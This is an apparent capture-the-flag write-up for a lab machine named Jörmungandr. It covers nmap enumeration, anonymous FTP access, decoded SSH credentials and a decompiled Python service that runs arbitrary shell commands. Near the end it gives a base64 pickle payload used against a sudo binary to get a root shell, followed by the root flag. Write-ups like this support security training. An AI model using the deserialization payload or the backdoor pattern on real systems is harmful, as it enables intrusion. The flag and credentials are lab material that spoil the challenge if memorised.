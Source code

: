 # Jörmungandr

## Enumeration
```bash
└─$ sudo nmap -sS -A 10.10.249.240                            
[sudo] password for marius: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-24 12:15 BST
Nmap scan report for 10.10.249.240
Host is up (0.035s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT   STATE  SERVICE  VERSION
20/tcp closed ftp-data
21/tcp open   ftp      vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp           124 Jan 19  2022 poem.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.37.214
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open   ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 04:d5:75:9d:c1:40:51:37:73:4c:42:30:38:b8:d6:df (RSA)
|   256 7f:95:1a:d7:59:2f:19:06:ea:c1:55:ec:58:35:0c:05 (ECDSA)
|_  256 a5:15:36:92:1c:aa:59:9b:8a:d8:ea:13:c9:c0:ff:b6 (ED25519)
Aggressive OS guesses: Linux 3.10 - 3.13 (89%), Linux 5.4 (89%), Linux 3.10 - 4.11 (88%), Linux 3.12 (88%), Linux 3.13 (88%), Linux 3.13 or 4.2 (88%), Linux 3.2 - 3.5 (88%), Linux 3.2 - 3.8 (88%), Linux 4.2 (88%), Linux 4.4 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 20/tcp)
HOP RTT      ADDRESS
1   35.66 ms 10.8.0.1
2   36.08 ms 10.10.249.240
```
### I go to the ftp and I found the .hidden file
```bash
get .hidden
```
## Exploitation

### In this file, I got python pickle encoded in binary

### After decoding with script i got this : 
```bash
└─$ python3 script.py
Username: fenrir
Password: I_will_kill_odin_during_ragnarok
```
### I go on the fenrir ssh and I found the mjollnir.pyc file

## User FLAG

I forgot to write it :(

## Privilege Escalation

```bash
└─$ uncompyle6 mjollnir.pyc 
```
```python
# uncompyle6 version 3.9.1
# Python bytecode version base 3.8.0 (3413)
# Decompiled from: Python 3.11.8 (main, Feb  7 2024, 21:52:08) [GCC 13.2.0]
# Embedded file name: .mjollnir.py
# Compiled at: 2022-01-19 13:49:25
# Size of source mod 2**32: 2225 bytes
from Crypto.Util.number import bytes_to_long, long_to_bytes
import sys, textwrap, socketserver, string, readline, threading
from time import *
import getpass, os, subprocess
username = long_to_bytes(128672430374905338731062386L)
password = long_to_bytes(33643248411776211125062560554130339746417025421355137140099645078910060553582L)

class Service(socketserver.BaseRequestHandler):

    def ask_creds(self):
        username_input = self.receive(b'Username: ').strip()
        password_input = self.receive(b'Password: ').strip()
        print(username_input, password_input)
        if username_input == username:
            if password_input == password:
                return True
        return False

    def handle(self):
        loggedin = self.ask_creds()
        if not loggedin:
            self.send(b'Wrong credentials!')
            return
        self.send(b'Successfully logged in!')
        while True:
            command = self.receive(b'C:\\User\\Jormungandr> ')
            p = subprocess.Popen(command,
              shell=True, stdout=(subprocess.PIPE), stderr=(subprocess.PIPE))
            self.send(p.stdout.read())

    def send(self, string, newline=True):
        if newline:
            string = string + b'\n'
        self.request.sendall(string)

    def receive(self, prompt=b'> '):
        self.send(prompt, newline=False)
        return self.request.recv(4096).strip()


class ThreadedService(socketserver.ThreadingMixIn, socketserver.TCPServer, socketserver.DatagramRequestHandler):
    pass


def main():
    print("Starting server...")
    port = 7432
    host = "0.0.0.0"
    service = Service
    server = ThreadedService((host, port), service)
    server.allow_reuse_address = True
    server_thread = threading.Thread(target=(server.serve_forever))
    server_thread.daemon = True
    server_thread.start()
    print("Server started on " + str(server.server_address) + "!")
    while True:
        sleep(10)


if __name__ == "__main__":
    main()
```
```bash
└─$ python decode.py         
b'jormungandr'
b'Jag_ar_Jormungandr_midgardsormen'
```
### I go on the jormungandr ssh session

### I follow this tuto https://medium.com/@cuncis/implanting-ssh-keys-a-step-by-step-guide-with-command-examples-f57b21690854

```bash
sudo /opt/ragnarok/ragnarok
```

#### try 1 : bash
```Error: If this is your last meal, include at least a pickle in it!```
#### try 2 : pickle
```Error: the meal is 64 times worst than I thought```
#### (find a write up for this) try 3 :
```gASVHwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjARiYXNolIWUUpQu```

```bash
cd /root
```
## Root FLAG
```cat `ls` ```: EPI{deN_hAr_GudarNa2_ErA_GaR_m0T_sITT_sluT}


